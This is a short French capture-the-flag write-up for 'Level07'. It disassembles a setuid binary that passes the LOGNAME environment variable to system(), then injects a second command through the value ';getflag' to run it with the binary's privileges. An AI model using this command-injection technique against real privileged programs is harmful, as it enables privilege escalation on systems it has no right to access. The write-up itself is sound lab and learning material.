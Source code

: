 # Level07

Premiere étape de recherche

	$ ls -la
	-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07

On trouve un binaire avec setuid et setgid

	$ ./level07
	level07

Il affiche son nom


Analysons le avec GDB.

	.....
	0x0804856f <+91>:	mov    DWORD PTR [esp],0x8048680
	0x08048576 <+98>:	call   0x8048400 <getenv@plt>
	0x0804857b <+103>:	mov    DWORD PTR [esp+0x8],eax
	0x0804857f <+107>:	mov    DWORD PTR [esp+0x4],0x8048688
	0x08048587 <+115>:	lea    eax,[esp+0x14]
	0x0804858b <+119>:	mov    DWORD PTR [esp],eax
	0x0804858e <+122>:	call   0x8048440 <asprintf@plt>
	0x08048593 <+127>:	mov    eax,DWORD PTR [esp+0x14]
	0x08048597 <+131>:	mov    DWORD PTR [esp],eax
	0x0804859a <+134>:	call   0x8048410 <system@plt>
	.....

	env = getenv("LOGNAME");
	asprintf(str, "/bin/echo %s ", env);
	system(str);

Le programme fait un echo de la variable d'environnement LOGNAME grace a la fonction "system"

Si on modifie la variable d'environnement LOGNAME...

	$ export LOGNAME=coucou
	$ ./level07
	coucou

On va y injecter une autre commande

	$ export LOGNAME=';getflag'
	$ ./level07
	Check flag.Here is your token : XXXXXXXXXXXXXXXX
